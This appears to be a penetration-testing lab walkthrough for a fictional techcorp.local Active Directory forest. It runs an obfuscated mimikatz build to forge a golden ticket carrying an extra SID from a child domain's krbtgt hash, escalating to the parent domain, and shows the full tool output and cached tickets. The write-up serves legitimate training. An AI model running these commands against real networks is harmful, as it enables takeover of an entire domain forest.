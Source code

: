 # Hands-On 21
```
Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent
domain, techcorp.local using the krbtgt hash of us.techcorp.local.
```
## Index Of Content:

  1. [Escalate Privileges](#escalate-privileges)


##Escalate Privileges

Create new Golden ticket :

```
C:\Windows\system32>C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946 /krbtgt:b0975ae49f441adc6b024ad238935af5 /ptt" "exit"
[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
[+] Randomizing strings in memory
[+] Suicide burn before CreateThread!

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # kerberos::golden /user:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946 /krbtgt:b0975ae49f441adc6b024ad238935af5 /ptt
User      : Administrator
Domain    : us.techcorp.local (US)
SID       : S-1-5-21-210670787-2521448726-163245708
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-2781415573-3701854478-2406986946 ;
ServiceKey: b0975ae49f441adc6b024ad238935af5 - rc4_hmac_nt
Lifetime  : 2/28/2023 12:01:41 PM ; 2/25/2033 12:01:41 PM ; 2/25/2033 12:01:41 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ us.techcorp.local' successfully submitted for current session

mimikatz(commandline) # exit
Bye!

```
C:\Windows\system32>klist

Current LogonId is 0:0x738a20d

Cached Tickets: (2)

#0>     Client: Administrator @ us.techcorp.local
        Server: krbtgt/us.techcorp.local @ us.techcorp.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 2/28/2023 12:01:41 (local)
        End Time:   2/25/2033 12:01:41 (local)
        Renew Time: 2/25/2033 12:01:41 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

#1>     Client: Administrator @ us.techcorp.local
        Server: CIFS/techcorp-dc.techcorp.local @ TECHCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 2/28/2023 11:54:20 (local)
        End Time:   2/28/2023 21:54:20 (local)
        Renew Time: 3/7/2023 11:54:20 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

```
